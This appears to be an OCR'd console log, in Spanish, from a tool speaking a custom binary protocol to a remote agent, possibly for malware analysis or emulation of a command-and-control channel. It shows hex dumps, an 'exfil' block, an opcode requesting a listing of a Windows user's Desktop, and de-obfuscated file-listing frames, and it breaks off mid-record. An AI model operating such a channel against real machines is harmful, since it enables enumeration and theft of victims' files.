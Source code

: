 ```
        ASCII: b'v.od.og.ofvUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU'
        HEX  : 76 16 6f 64 11 6f 67 0f 6f 66 76 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55
    [*] Bloque de 256B (exfil post-op1) detectado. Enviando opcode 2 con patrón…
    [*] Enviado opcode=2 (260 bytes) con patrón: b'C:\\Users\\usuario\\Desktop\\*'
    [*] idle timeout; keeping connection open...
    [*] idle timeout; keeping connection open...
    [*] Recibido (2 bytes):
        ASCII: b'o.'
        HEX  : 6f 00
    [*] STATUS inicial opcode2 (2B): b'o\x00' HEX=6f 00
    [*] Hay coincidencias. Entrando en modo LISTING (lectura de frames 0x204)…
    [*] idle timeout; keeping connection open...
    [*] Recibido (516 bytes):
        ASCII: b'10&>!:%{<;<UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUOpciones de configuraci.n.......................................0K..............................................................2025-08-04 11:04:36.................................................................................................................'
        HEX  : 31 30 26 3e 21 3a 25 7b 3c 3b 3c 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 55 4f 70 63 69 6f 6e 65 73 20 64 65 20 63 6f 6e 66 69 67 75 72 61 63 69 f3 6e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 4b 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 30 34 20 31 31 3a 30 34 3a 33 36 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
    [*] FRAME 0x204 recibido:
        HEAD (deofuscado, 0x100): b'desktop.ini.....................................................................................................................................................................................................................................................'
        TAIL (0x104) HEX: 4f 70 63 69 6f 6e 65 73 20 64 65 20 63 6f 6e 66 69 67 75 72 61 63 69 f3 6e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 30 4b 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 32 30 32 35 2d 30 38 2d 30 34 20 31 31 3a 30 34 3a 33 36 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00
        [+] ACK enviado (2B): 00 00
    [*] idle timeout; keeping connection open...
    [*] Recibido (516 bytes):
```